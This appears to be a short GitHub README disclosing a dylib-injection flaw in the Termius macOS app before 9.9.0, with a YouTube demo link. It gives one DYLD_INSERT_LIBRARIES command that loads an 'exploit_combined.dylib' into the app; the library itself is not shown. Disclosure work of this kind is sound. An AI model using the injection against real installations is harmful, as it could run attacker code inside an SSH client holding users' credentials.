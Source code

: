 # Termius-Command-injection
Termius App MacOS dylib Command injection

Terminus before 9.9.0 

using dylib
```shell
DYLD_INSERT_LIBRARIES=exploit_combined.dylib /Applications/Termius.app/Contents/MacOS/Termius
```

[![IMAGE ALT TEXT HERE](https://img.youtube.com/vi/_5tFXJQIzi4/0.jpg)](https://www.youtube.com/watch?v=Y_5tFXJQIzi4)
